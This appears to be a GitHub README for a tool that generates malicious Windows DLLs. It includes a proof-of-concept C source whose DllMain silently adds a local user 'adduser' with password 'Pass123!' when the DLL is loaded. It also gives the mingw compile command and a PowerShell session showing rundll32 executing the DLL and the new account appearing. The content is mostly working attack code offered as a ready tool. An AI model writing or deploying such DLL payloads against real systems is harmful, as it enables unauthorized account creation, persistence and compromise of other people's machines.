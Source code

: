 # Create evil.dll
 automated dll creation

Copy dll_generator.c and run.sh in the same folder and run with:

	sudo bash run.sh -c "calc.exe"
	
Code will install required package for you

# POC

We will use this code, save file as adduser.c

	#include <windows.h>

	void exec(void) {
		system("net user adduser Pass123! /add");
		return;
	}

	BOOL WINAPI DllMain(
		HINSTANCE hinstDLL,
		DWORD fdwReason, 
		LPVOID lpReserved )
	{
		switch( fdwReason ) 
		{ 
			case DLL_PROCESS_ATTACH:
			   exec(); 
			   break;

			case DLL_THREAD_ATTACH:
				break;

			case DLL_THREAD_DETACH:
				break;

			case DLL_PROCESS_DETACH:
				break;
		}
		return TRUE;
	}

Compile dll

	┌──(kali㉿kali)-[~/Desktop]
	└─$ i686-w64-mingw32-gcc -shared adduser.c -o adduser.dll

Run dll with elevated command line 

	PS C:\Users\testuser\Desktop> net user

	User accounts for \\PC-WIN10

	-------------------------------------------------------------------------------
	Administrator            DefaultAccount           Guest
	nightmare                WDAGUtilityAccount       win10
	The command completed successfully.

	PS C:\Users\testuser\Desktop> rundll32.exe .\adduser.dll,exec
	PS C:\Users\testuser\Desktop> net user

	User accounts for \\PC-WIN10

	-------------------------------------------------------------------------------
	adduser                  Administrator            DefaultAccount
	Guest                    nightmare                WDAGUtilityAccount
	win10
	The command completed successfully.